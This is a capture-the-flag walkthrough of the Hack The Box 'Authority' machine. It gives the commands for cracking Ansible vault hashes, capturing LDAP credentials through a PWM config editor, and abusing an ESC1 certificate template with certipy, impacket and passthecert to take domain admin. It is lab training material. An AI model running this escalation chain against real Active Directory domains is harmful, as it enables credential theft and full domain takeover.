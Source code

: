 Started with a nmap scan
```
53 DNS
80 IIS 10.0
88 Kerberos
135 RPC
139
389 LDAP
636 LDAP
3268 LDAP
3269 LDAP
5985
8442 Apache tomcat
```
Domain `authority.htb` Hostname `AUTHORITY` 
Going to port `80` is default IIS page going to port `8443` is a Password self service  aka PWM we can look at the config for the logins and get a username so going to the SMB now we can use the guest login and there is one share we can read called `development` it has a lot in it but after looking around we found one file with some ansible creds in it `\automation\Ansible\PWM\defualts\main.yml` we need to copy these hashes into a file and then use `ansible2john` and we can use hashcat to crack the hashes `hashcat ansible_hash rockyou.txt --username -m 16900` and they call cracked to the same password `!@#$%^&*` and now we can decrypt the password blobs `cat file | ansible-vualt decrypt` and we do this for 3 files and then we get the logins 
```
ldap admin:DevT3st@123
svc_pwm:pWm_@dm!N_!23
```
if we go to the site and go to the config editor we can login with the svc password messing around in the site we can edit the ldap connection and capture some creds I used ncat but did not work out the best so we need to use wireshark to get these creds and we got the creds for the ldap user `svc_ldap:lDaP_1N_th3_cle4r!` and we can winrm as this user now I cant find much so going off the name of the machine it might have to do with some certs so we can see if there is any vulnerable templates `certipy-ad find -u svc_ldap -p lDaP_1N_th3_cle4r! -target authority.htb -text -stdout -vulnerable` and we got `ESC1` now we can add a machine account `impacket-addcomputer 'authority.htb/svc_ldap:lDaP_1N_th3_cle4r!' -method LDAPS -computer-name bowser -computer-pass bowser -dc-ip 10.10.11.222` and now we need to request the cert `certipy-ad req -username 'bowser' -password bowser -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb` when we try and auth it gives us a error do we have to do it a different way we need to get the keys out of the pfx file
`certipy-ad cert -pfx administrator_authority.pfx -nocert -out admin.key` and then `certipy-ad cert -pfx administrator_authority.pfx -nokey -out admin.crt` now we can do pass the cert `python passthecert.py -action ldap-shell -crt administrator.crt -key admin.key -domain authority.htb -dc-ip 10.10.11.222` and then we need to do `add_user_to_group svc_ldap administrators` and now we re auth with winrm with `svc_ldap` and we are admin 
